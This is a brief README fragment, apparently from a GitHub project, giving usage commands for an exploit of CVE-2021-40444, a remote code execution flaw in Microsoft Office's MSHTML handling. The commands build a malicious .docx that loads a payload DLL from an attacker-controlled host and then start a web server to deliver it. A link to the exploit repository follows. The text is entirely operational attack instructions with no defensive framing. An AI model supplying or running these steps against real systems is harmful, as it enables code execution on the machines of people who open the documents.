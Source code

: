 ### create malicious docx file
```
python3 exploit.py generate test/<payload>.dll http://<lhost>
```

### start server
```
sudo python3 exploit.py host 80
```

### Resource
https://github.com/lockedbyte/CVE-2021-40444  

